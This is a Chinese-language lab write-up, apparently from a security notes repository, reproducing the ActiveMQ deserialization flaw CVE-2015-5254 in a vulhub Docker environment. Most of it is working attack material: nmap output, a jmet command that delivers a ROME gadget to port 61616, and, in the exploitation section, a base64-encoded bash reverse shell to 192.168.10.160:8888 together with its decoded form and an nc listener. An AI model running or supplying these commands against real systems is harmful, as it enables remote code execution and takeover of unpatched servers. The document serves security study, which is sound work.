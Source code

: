 # 0x01 ActiveMQ 反序列化漏洞（CVE-2015-5254）
* ActiveMQ 是一个消息中间件，简单点说就是一种类似于`rmq`差不多的消息分发的中间件
* 它支持Java消息服务、集群、Spring Framework等
* 默认端口：
    * 8161：后台管控端口
    * 61616：服务端口

# 0x02 影响版本
* Apache ActiveMQ 5.13.0之前5.x版本中

# 0x03 靶场环境
* 使用线下`vulhub`靶场环境
``` linux
wq@wq:~/vulhub/activemq/CVE-2015-5254$ pwd
/home/wq/vulhub/activemq/CVE-2015-5254
wq@wq:~/vulhub/activemq/CVE-2015-5254$ sudo docker-compose up -d
```
* 验证靶场环境，访问：`http://192.168.66.74:8161` `http://192.168.66.74:61616` 
![图 1](.images/CVE-2015-5254/IMG_20220212-170948406.png)  

# 0x04 漏洞复现
* 端口扫描
```
PS D:\MyHackTool\SubDomainsBrute> nmap -sV 192.168.66.74 -p 8161,61616
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-12 17:11 ÖĐąú±ę×ĽĘ±Ľä
Nmap scan report for 192.168.66.74
Host is up (0.0011s latency).

PORT      STATE SERVICE  VERSION
8161/tcp  open  http     Jetty 8.1.16.v20140903
61616/tcp open  apachemq ActiveMQ OpenWire transport
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port61616-TCP:V=7.92%I=7%D=2/12%Time=620779D0%P=i686-pc-windows-windows
SF:%r(NULL,F4,"\0\0\0\xf0\x01ActiveMQ\0\0\0\n\x01\0\0\0\xde\0\0\0\t\0\x0cM
SF:axFrameSize\x06\0\0\0\0\x06@\0\0\0\tCacheSize\x05\0\0\x04\0\0\x0cCacheE
SF:nabled\x01\x01\0\x12SizePrefixDisabled\x01\0\0\x20MaxInactivityDuration
SF:InitalDelay\x06\0\0\0\0\0\0'\x10\0\x11TcpNoDelayEnabled\x01\x01\0\x15Ma
SF:xInactivityDuration\x06\0\0\0\0\0\0u0\0\x14TightEncodingEnabled\x01\x01
SF:\0\x11StackTraceEnabled\x01\x01");
MAC Address: 00:0C:29:57:C4:B7 (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.83 seconds
```
* 在端口扫描中看到了8161与61616 这些端口，可以推测是`amq`的一些服务

* 猜测可能会存在`amq`反序列化漏洞，在指定amq反序列化漏洞时，需要注意在本地创建一个空文件夹，且命名为`external`

  ![image-20220224103744072](CVE-2015-5254.assets/image-20220224103744072.png)

* 执行命令：`java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/success" -Yp ROME 192.168.66.74 61616` 
```
INFO d.c.j.t.JMSTarget [main] Connected with ID: ID:wq-1953-1644662869736-0:1
INFO d.c.j.t.JMSTarget [main] Sent gadget "ROME" with command: "touch /tmp/success"
INFO d.c.j.t.JMSTarget [main] Shutting down connection ID:wq-1953-1644662869736-0:1
```
* 观察结果
![图 1](.images/CVE-2015-5254/IMG_20220212-184939377.png) 
![图 2](.images/CVE-2015-5254/IMG_20220212-185522437.png)  

# 0x05漏洞利用
* 利用此漏洞进行shell反弹

* 本地创建nc进行监听`nc.exe -vvlp 8888`，需要注意这里是需要base64的编码，可以尝试以下命令：

  `java -jar .\jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEwLjE2MC84ODg4IDA+JjE=}|{base64,-d}|{bash,-i}" -Yp ROME 192.168.10.134 61616`

* 其中`YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEwLjE2MC84ODg4IDA+JjE=`为paly编码。`bash -i >& /dev/tcp/192.168.10.160/8888 0>&1`

  ![image-20220224103409976](CVE-2015-5254.assets/image-20220224103409976.png)

  ![image-20220224103514501](CVE-2015-5254.assets/image-20220224103514501.png)

  # 0x06 总结

* 其实这个漏洞的限制也是比较大得，其一：amq得版本比较低5.13以下，但是我们在进行端口扫描的时候可以判断他是amq的一种服务，也能看到版本信息，通过访问`http://192.168.10.134:8161/`进入管理界面去看下面的版本信息是否比较低。

  * 低版本的页面管理：

    ![image-20220224104551722](CVE-2015-5254.assets/image-20220224104551722.png)

  

  * 高版本的页面管理：

    ![image-20220224104521105](CVE-2015-5254.assets/image-20220224104521105.png)

  

* 其次就是这个楼的需要知道对方java使用tcp传递的端口，一般情况这个端口是不开放，且自定义的端口，不容易被发现

  * 容易发现的端口，扫描后的信息为：

    ![image-20220224105401603](CVE-2015-5254.assets/image-20220224105401603.png)
